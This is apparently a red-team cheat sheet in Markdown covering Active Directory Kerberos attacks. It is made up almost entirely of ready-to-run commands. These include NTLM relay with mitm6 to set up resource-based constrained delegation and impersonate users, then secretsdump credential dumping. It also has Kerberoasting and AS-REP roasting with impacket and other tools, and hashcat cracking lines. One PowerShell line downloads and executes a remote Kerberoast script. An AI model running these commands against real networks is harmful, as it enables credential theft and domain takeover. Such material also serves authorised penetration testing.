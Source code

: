 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Kerberos Delegation

- https://en.hackndo.com/constrained-unconstrained-delegation/
    - first in series of posts explaining kerberos delegation

# Resource-based Constrained Delegation

## NOTE: this attack works by relaying HTTP to LDAPS
For this reason, you can use --no-smb-server on ntlmrelayx and run Responder, etc. at the same time

1. Start `ntlmrelayx`
Note: --delegate-access adds a computer account AND modifies delegation rights
~~~
$ ./ntlmrelayx.py -6 -t ldaps://dc01.evilcorp.local --delegate-access -wh <attacker_hostname> --no-dump --no-da --no-acl --no-validate-privs -of "$PWD/hashes.txt" --no-smb-server
~~~

2. Start `mitm6` and wait for a computer account to be created
~~~
# attacking two workstations
$ mitm6 -hw win7-bob.evilcorp.local -hw win7-angela.evilcorp.local -d evilcorp.local --ignore-nofqdn
~~~

3. Wait for a computer account to be created (mitm6 can take a while)

4. Request a TGT and save it in a `.ccache` file
~~~
$ ./get ST.py -spn cifs/win7-bob.evilcorp.local evilcorp.local/<computer_name_created> -impersonate bob
~~~

5. Access the target system
~~~
export KRB5CCNAME=bob.ccache
$ ./secretsdump.py -k -no-pass win7-bob.evilcorp.local
~~~

# T1558.003 - Kerberoasting

### Attacks
* Request for service tickets
	* Overview
This test uses the Powershell Empire Module: https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1
The following are further sources and credits for this attack:
[Kerberoasting Without Mimikatz source] (https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)
[Invoke-Kerberoast source] (https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)
when executed successfully , the test displays available services with their hashes. 
If the testing domain doesn't have any service principal name configured, there is no output

```powershell
iex(iwr https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1)
Invoke-Kerberoast | fl
```

<br/>

# Kerberoasting

## Impacket
NOTE: hostname must be in /etc/hosts if running through proxychains
~~~
$ ./GetUserSPNs.py -request 'evilcorp.local/angela:P@ssw0rd1'
~~~

## Skelsec kerberoast
- https://github.com/skelsec/kerberoast
~~~
$ pip3 install kerberoast
# look for kerberoast and asrep
$ kerberoast ldap all ldap://dc01.evilcorp.local
# try to asrep roast a bunch of users
$ kerberoast asreproast <DC_ip> -t domain_users.txt
~~~

## Invoke-Kerberoast
- https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1
~~~
$ Invoke-Kerberoast -Domain evilcorp.local -OutputFormat HashCat | fl
~~~

## Cracking
~~~
$ hashcat -m 13100 kerb_hashes.txt wordlist.txt
~~~

# AS-REP roasting
Only user accounts with Kerberos pre-authentication disabled are vulnerable
NOTE: If you have rights to modify a user in AD, you can disable Kerberos pre-authentication, then AS-REP to get their hash
~~~
# check ASREPRoast for all domain users (credentials required)
$ ./GetNPUsers.py evilcorp.local/bob:P@ssw0rd -request -format hashcat -outputfile roasted.txt
~~~

~~~
# check ASREPRoast for a list of users (no credentials required)
$ ./GetNPUsers.py evilcorp.local/ -usersfile usernames.txt -format hashcat -outputfile roasted.txt
~~~

## Cracking
~~~
$ hashcat -m 18200 kerb_hashes.txt wordlist.txt
~~~